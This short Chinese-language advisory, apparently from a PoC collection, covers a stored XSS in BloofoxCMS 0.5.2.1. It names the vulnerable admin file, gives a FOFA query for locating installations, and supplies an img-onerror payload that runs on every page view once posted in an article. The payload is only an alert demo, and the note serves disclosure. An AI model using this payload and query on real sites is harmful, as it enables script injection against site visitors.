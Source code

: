 # BloofoxCMS 0.5.2.1 存储型XSS

漏洞文件：

```
/admin/include/inc_content_articles.php
``` 

FOFA:

```
app="BloofoxCMS"
```

受影响版本：

0.5.1.0 -.5.2.1

**PoC:**

登录有效的账号，在添加文章的时候插入Payload发布，每次访问均可触发：

```html
<img src=# onerror=alert('xss')>
```

ref：

https://packetstormsecurity.com/files/161195